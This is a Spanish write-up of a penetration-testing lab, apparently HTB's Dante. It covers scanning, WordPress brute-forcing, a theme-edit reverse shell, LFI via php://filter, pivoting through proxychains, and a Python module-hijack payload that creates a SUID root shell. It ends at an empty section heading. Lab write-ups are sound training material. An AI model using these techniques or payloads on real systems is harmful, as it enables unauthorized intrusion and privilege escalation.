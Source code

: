 ```yaml
---
hidden: true
---
```


# Dante

## I'm nuts and bolts about you

Vemos qué hosts están activos.

```
nmap -sn -T4 10.10.110.0/24 -o hosts_activos
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Realizamos escaneo completo para ver las versiones y servicios.

```
nmap -T4 -sC -sV -p- --min-rate=1000 10.10.110.100
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos varios puertos pero vamos a ir poco a poco. Primero miramos el puerto **FTP** que tenemos acceso con **anonymous**.

```
ftp 10.10.110.100
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido de lo descargado.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Tenemos estas pistas para los siguientes pasos. Vemos a ver el contenido del puerto **65000**.

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## It's easier this way

Conseguimos la bandera pero vemos hay un wordpress corriendo así que vamos allá.

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Realizamos un escaneo con WPScan.

```
wpscan --url http://10.10.110.100:65000/wordpress --enumerate vp
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Usa versión desactualizada por lo que tendrá alguna vulnerabilidad. Miramos los usuarios.

```
wpscan --url http://10.10.110.100:65000/wordpress --enumerate u
```

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-10-13 101357.png" alt=""><figcaption></figcaption></figure>

Realizamos fuera bruta para sonsacar la contraseña con rockyou y esos usuarios.

```
wpscan --url http://10.10.110.100:65000/wordpress --usernames usuarios --passwords rockyou.txt
```

Tras haberla sacado nos logueamos (james:Toyota).

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

James tiene rol de administrador. Como vimos antes en la temática que usan podemos realizar una Reverse Shell editando un archivo.

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de TTY.

```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Nos logueamos con las mismas credenciales de **james**.

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Show me the way

No tenemos permisos SUDO por lo que miramos SUID.

```
find / -perm -4000 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/find/" %}

Miramos el contenido de archivos interesantes.

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Seclusion is an illusion

Si hacemos `ifconfig` vemos que tenemos una subret por lo que miramos cuales están activos.

```
for i in {1..255} ;do (ping -c 1 172.16.1.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Vamos a mirar que servicios corren para ello lo hacemos con proxychains.

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Si navegamos entre las secciones vemos el parámetro `?page` por lo que siguiendo la pista que nos dejaron antes ahí estará el **LFI**.

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Vemos dos usuarios que son frank y margaret. Nos conectamos por SMB.

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Vemos que nos podemos conectar sin contraseña.

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Vamos a ver la pista del WP.

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Así que estará en la ruta del root.

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-10-13 125655.png" alt=""><figcaption></figcaption></figure>

Parece que el CMS de WordPress no es accesible directamente. Podría ser que WordPress esté instalado en el directorio raíz del servidor web `/var/www/html/`, mientras que la aplicación "Dante Hosting" se sirve desde un subdirectorio. Vamos a confirmar esto accediendo al archivo `/var/www/html/index.html` usando la vulnerabilidad LFI (Local File Inclusion).

Podemos ver que la página predeterminada de Apache está presente en la raíz del servidor web. Vamos a intentar cargar la página `index.php` de WordPress.

El mensaje de error confirma que WordPress está instalado en la raíz del servidor. En general, WordPress almacena la configuración de la base de datos en el archivo `wp-config.php`.

PHP ofrece diversos _wrappers_ (envoltorios) que pueden usarse para acceder fácilmente a archivos, protocolos o flujos de datos. Una lista completa de estos _wrappers_ puede encontrarse [aquí](https://www.php.net/wrappers). El _wrapper_ `php://` está habilitado por defecto y se usa para interactuar con los flujos de entrada y salida (IO).

Por ejemplo: `php://stdin` y `php://stdout` se usan para acceder a los flujos de entrada y salida del proceso, mientras que `php://input` y `php://output` se usan para acceder a los datos de la solicitud.

Un _wrapper_ útil es `php://filter`, el cual puede encadenarse con múltiples filtros para obtener el tipo de salida deseado.

Vamos a decodificarlo.

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-10-13 130653.png" alt=""><figcaption></figcaption></figure>

Vienen unas credenciales de margaret vamos a intentar por SSH.

```
proxychains ssh margaret@172.16.1.10
```

Vemos que tenemos una shell restringida pero está vim.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

<figure><img src="../.gitbook/assets/image (1716).png" alt=""><figcaption></figcaption></figure>

## Snake it 'til you make it

Se encontró un directorio `.config/Slack` en el home del usuario, lo que concuerda con una tarea pendiente relacionada con la integración de Slack.

Slack suele guardar datos del usuario en `~/.config/Slack`. Si un administrador exporta los datos del workspace, se guardan en formato **JSON**.

<figure><img src="../.gitbook/assets/image (1717).png" alt=""><figcaption></figcaption></figure>

Cambiamos al usuario Frank con esa contraseña. Vemos que contiene un archivo.

<figure><img src="../.gitbook/assets/image (1718).png" alt=""><figcaption></figcaption></figure>

Ejecutamos **pspy**.

<figure><img src="../.gitbook/assets/image (1719).png" alt=""><figcaption></figcaption></figure>

La salida de **pspy** revela que **root** ejecuta el script cada minuto. El script no es escribible por **frank**, aunque importa los módulos `call` y `urllib`. Python dispone de una lista de rutas de búsqueda para sus librerías. Esto puede verse ejecutando los siguientes comandos.

```
>>> import sys
>>> sys.path
['', '/usr/lib/python2.7', '/usr/lib/python2.7/plat-x86_64-linux-gnu',
'/usr/lib/python2.7/lib-tk', '/usr/lib/python2.7/lib-old',
'/usr/lib/python2.7/lib-dynload', '/usr/local/lib/python2.7/dist-packages',
'/usr/lib/python2.7/dist-packages']
```

Python primero comprueba los módulos en el directorio de trabajo actual, antes de mirar en las demás rutas. Podemos intentar secuestrar la carga de los módulos legítimos `call` o `urllib`, de modo que en su lugar se cargue nuestro módulo malicioso. Creemos un archivo `urllib.py` en la carpeta `/home/frank` con el contenido que aparece a continuación.

```
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```

<figure><img src="../.gitbook/assets/image (1720).png" alt=""><figcaption></figcaption></figure>

Miramos la flag `/root/flag.txt`

## Feeling fintastic

